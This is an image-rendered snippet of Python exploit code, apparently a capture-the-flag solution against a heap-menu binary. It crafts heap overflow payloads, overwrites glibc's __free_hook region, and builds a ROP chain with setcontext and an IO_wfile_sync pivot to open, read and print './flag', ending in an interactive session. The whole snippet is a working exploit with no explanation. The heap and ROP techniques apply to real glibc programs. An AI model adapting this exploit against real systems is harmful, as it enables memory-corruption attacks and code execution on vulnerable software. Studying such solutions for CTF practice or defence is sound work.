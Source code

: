 ```
payload = p64(pad)*2 + p64(top_chunk) + p64(pad)*3 + p64(free_hook-0xb68-1) + p64(pad)*22 + p64(0x21)
Gong(0,0x100,payload)
Shang(0)
Shang(1)

pop_rdi = libc_base + 0x0000000000026542
pop_rsi = libc_base + 0x0000000000026f9e
pop_rdx = libc_base + 0x000000000012bda6
pop_rax = libc_base + 0x0000000000047cf8
syscall = libc_base + 0x000000000010CF7F
flag = free_hook + 8
read_addr = libc_base + 0x10CF70
write_addr = libc_base + 0x10D010
ropchain = p64(pop_rdi) + p64(flag) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(4) + p64(pop_rax) + p64(2) + p64(syscall)
ropchain += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(heap) + p64(pop_rdx) + p64(0x20) + p64(read_addr)
ropchain += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(heap) + p64(pop_rdx) + p64(0x20) + p64(write_addr)

Gong(0,0xf8,'x00' + p64(0) + p64(0x21001))
payload = p64(pad)*2 + p64(top_chunk) + p64(pad)*3
Gong(1,0x100,payload)
Shang(1)
Gong(1,0x400,'aaaaaaaa')
Shang(1)
Gong(1,0x400,'aaaaaaaa')
Shang(1)
setcontext = libc_base + 0x55E35
tar = free_hook - 0x328
rdx = tar + 0xe0-0xa0 -8
tar_rsp = tar + 0xe0
io_wfile_sync = 0x89460 + libc_base
payload = p64(0) + p64(1) + p64(2) + p64(rdx)*4 + 'x00'*0x60 + p64(tar+0xb0) # 0xa0
payload += p64(tar) + p64(0) # 0xb0
payload += 'x00'*0x20 + p64(setcontext) + p64(tar_rsp + 8) #0xe0
payload += ropchain
payload = payload.ljust(0x328,'x00') + p64(io_wfile_sync) + './flagx00'
Gong(1,0x400,payload)
Shang(1)
p.interactive()
```
